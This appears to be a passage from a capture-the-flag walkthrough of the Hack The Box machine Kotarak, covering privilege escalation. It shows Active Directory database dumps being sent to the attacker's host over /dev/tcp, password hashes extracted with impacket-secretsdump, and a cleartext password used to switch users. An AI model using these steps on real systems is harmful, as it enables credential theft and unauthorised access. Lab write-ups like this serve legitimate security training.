

# PrivEsc


# Pentest Data
```
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls -la
total 28312
drwxr-xr-x 2 tomcat tomcat     4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat     4096 Jul 21  2017 ..
-rw-r--r-- 1 tomcat tomcat 16793600 Jul 21  2017 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
-rw-r--r-- 1 tomcat tomcat 12189696 Jul 21  2017 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

# Let's upload these two files to our box

```bash
tomcat@kotarak-dmz:pentest_data$ cat 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit > /dev/tcp/10.10.14.9/9001
tomcat@kotarak-dmz:pentest_data$ cat 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin > /dev/tcp/10.10.14.9/9001
```





[The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.](https://www.ultimatewindowssecurity.com/blog/default.aspx?d=10/2017)


```bash
$ impacket-secretsdump -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL > server/output
```


```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/kotarak]
└─$ grep "atanas\|Administrator" server/output | awk -F: '{print $1":"$4}' | head -n 2
Administrator:e64fe0f24ba2489c05e64354d74ebd11
atanas:2b576acbe6bcfda7294d6bd18041b8fe
```


```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ su - atanas
Password: f16tomcat!	
atanas@kotarak-dmz:~$ 
```
Unfortunately, ssh is acting weird I couldn't log in through ssh. Nevertheless we got user atanas